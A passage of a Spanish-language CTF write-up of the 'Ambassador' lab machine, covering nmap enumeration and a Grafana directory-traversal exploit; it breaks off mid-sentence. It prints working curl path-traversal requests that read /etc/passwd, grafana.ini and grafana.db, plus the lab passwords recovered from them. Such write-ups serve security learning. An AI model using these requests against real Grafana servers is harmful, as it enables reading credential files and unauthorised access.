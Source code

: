 ```yaml
---
title: 'CTF - Ambassador WriteUp'
date: '2023-01-01'
tags: ["Grafana", "Git", "Rce", "Lfi", "CTF", "Directory Path Traversal"]
draft: true
authors: ['default']
summary: 'Reto CTF que consiste en enumerar y explotar una máquina. Se atacan vulnerabilidades como Local File Inclusion (LFI) en Grafana y obtención de credenciales en archivos de configuración y base de datos.'
images: ["/static/images/uploads/ctf-ambassador-writeup/Ambassador.webp", "/static/images/uploads/ctf-ambassador-writeup/image.webp", "/static/images/uploads/ctf-ambassador-writeup/image-1.webp"]
---
```


![](/static/images/uploads/ctf-ambassador-writeup/Ambassador.webp)

Esta máquina ha sido una que me ha gustado mucho. Sobre todo la primera parte hasta llegar a la escalada de privilegios.

## Enumeración


```
 nmap -p- -sCV -vvv --min-rate 5000 -oG allPorts 10.10.11.183

# Output
[*] Open ports: 22,80,3000,3306
```
Si analizamos concretamente los puertos expuestos, nos encontramos con la siguiente información.


```
 nmap -p22,80,3000,3306 -vvv -sCV 10.10.11.183 -oN targeted

# Output
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 29:dd:8e:d7:17:1e:8e:30:90:87:3c:c6:51:00:7c:75 (RSA)
80/tcp   open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Hugo 0.94.2
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Ambassador Development Server
3000/tcp open  ppp?    syn-ack
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sun, 01 Jan 2023 19:33:04 GMT
|     Content-Length: 29
|     href="/login"Found.
3306/tcp open  mysql   syn-ack MySQL 8.0.30-0ubuntu0.20.04.2
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.30-0ubuntu0.20.04.2
|   Thread ID: 15
|   Capabilities flags: 65535

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Tenemos el puerto de *SSH*, lo que parece un s*ervidor web* típico en el puerto 80, algo desconocido en el puerto 3000 y una base de datos *MySQL* en el puerto 3306.

## Local File Inclusion

Como me corroe la curiosidad, empiezo por el puerto 3000 y me encuentro Grafana instalado.

![](/static/images/uploads/ctf-ambassador-writeup/image.webp)

Una búsqueda rápida en searchsploit me devuelve una vulnerabilidad para las versiones de Grafana anteriores a la versión 8.3.


```
 searchsploit grafana 8.3
---------------------------------------------------------------------------
 Exploit Title                                               |  Path
---------------------------------------------------------------------------
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read  |    multiple/webapps/50581.py
---------------------------------------------------------------------------
```
Examinando un poco el exploit, vemos que podemos provocar un LFI con un simple comando de CURL.


```
 curl --path-as-is http://10.10.11.183:3000/public/plugins/logs/../../../../../../../../../../../../../etc/passwd

# Output
root:x:0:0:root:/root:/bin/bash
...
developer:x:1000:1000:developer:/home/developer:/bin/bash
...
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false
```
Buscando un poco por archivos que pueden resultarnos de interés en este caso, examinamos el archivo de configuración de Grafana almacenado en */etc/grafana/grafana.ini*.


```
 curl --path-as-is http://10.10.11.183:3000/public/plugins/logs/../../../../../../../../../../../../../etc/grafana/grafana.ini

# Output
...
# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
...
```
Con esas credenciales, podemos entrar directamente al panel de Grafana. En él, vemos que hay una base de datos MySQL configurada, pero no podemos ver sus credenciales. Además de eso, no hay mucho más que podamos hacer por esa vía. Otra ruta de interés es */var/lib/grafana/grafana.db.*

![Mysql configurado en Grafana](/static/images/uploads/ctf-ambassador-writeup/image-1.webp)

Esta ruta contiene una base de datos *sqlite,* donde se almacenan los Dashboards configurados. Con el siguiente comando nos descargamos la base de datos.


```
curl --path-as-is http://10.10.11.183:3000/public/plugins/logs/../../../../../../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
100  644k  100  644k    0     0   529k      0  0:00:01  0:00:01 --:--:--  529k
```
Y empezamos a mirar cosas:


```
 sqlite3 grafana.db
sqlite .tables
...          
data_source                 test_data                 
...
sqlite select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2023-01-01 19:26:31|0|{}|1|uKewFgM4z
```
Llegado a este punto, probamos a 

